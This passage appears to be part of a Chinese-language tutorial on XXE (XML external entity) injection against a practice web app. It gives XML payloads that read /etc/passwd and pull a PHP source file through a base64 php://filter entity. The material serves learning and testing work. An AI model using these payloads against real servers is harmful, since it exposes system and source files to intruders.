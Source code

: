 从上面我们可以看到，web应用正在解析xml的内容，接受用户特定或者自定义的输入，然后呈现给用户。为了验证，我们可以构造如下的输入：

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!DOCTYPE test[

&lt;!ENTITY test "testtest"&gt;]&gt;



&lt;reset&gt;&lt;login&gt;bee33333;&amp;test;&lt;/login&gt;&lt;secret&gt;Any bugs?&lt;/secret&gt;&lt;/reset&gt;
```

可以看到应用程序确实是直接解析了xml，那么如果xml文档中有一个参数是用来调用远程服务器的内容？这个参数是可控的,我们可以做什么？

**XXE漏洞-文件读取**

PHP中测试POC

[File:///path/to/file.ext](File:///%5C%5Cpath%5Cto%5Cfile.ext)

[http://url/file.ext](http://url/file.ext)

PHP://filter/read=convert.base64-encode/resource=/home/bee/test.php

**读取文档**

**有回显的xxe利用**

Payload:

```
&lt;?xml version="1.0" encoding="utf-8" ?&gt;

&lt;!DOCTYPE xxe[

&lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;]&gt;

〈xxe&gt;&amp;xxe;&lt;/xxe&gt;
```

[![](https://p4.ssl.qhimg.com/t019332cba178af8e41.png)](https://p4.ssl.qhimg.com/t019332cba178af8e41.png)

**读取php文件**

直接读取php文件会报错，因为php文件里面有&lt;&gt;//等特殊字符，xml解析时候会当成xml语法来解析。这时候就分不清处哪个是真正的xml语句了，

直接利用file协议读取PHP文件，就会产生报错。那么需要base64编码来读取，

Payload：

```
&lt;?xml version="1.0" encoding="utf-8" ?&gt;

&lt;!DOCTYPE xxe[

&lt;!ENTITY xxe SYSTEM "PHP://filter/read=convert.base64-encode/resource=/home/bee/test.php"&gt;]&gt;
```
